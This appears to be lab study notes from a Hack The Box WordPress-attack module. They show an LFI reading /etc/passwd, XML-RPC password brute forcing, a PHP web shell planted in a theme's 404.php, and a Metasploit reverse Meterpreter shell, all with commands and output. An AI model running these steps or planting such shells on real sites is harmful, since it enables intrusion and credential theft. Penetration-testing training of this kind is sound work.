



# Exploitin

## **LFI in Plugin**

### **Using Browser**

<figure><figcaption></figcaption></figure>

We can also validate this vulnerability using cURL on the command line.

### **Using cURL**

```shell-session
eldeim@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...SNIP...
```

## User Bruteforce

### **WPscan - XMLRPC**

```shell-session
eldeim@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

## RCE via the Theme Editor

### Attacking the WordPress Backend

Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### **Theme Editor**

<figure><figcaption></figcaption></figure>

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### **Selecting Theme**

<figure><figcaption></figcaption></figure>

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### **Twenty Seventeen Theme - 404.php**

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

#### RCE

```shell-session
eldeim@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

## Metasploit

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

**MSF Search**

Attacking WordPress with Metasploit

```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

The number `0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

### **Module Selection**

```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

### **Module Options**

#### **List Options**

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

### Exploitation

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module.

#### **Set Options**

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```
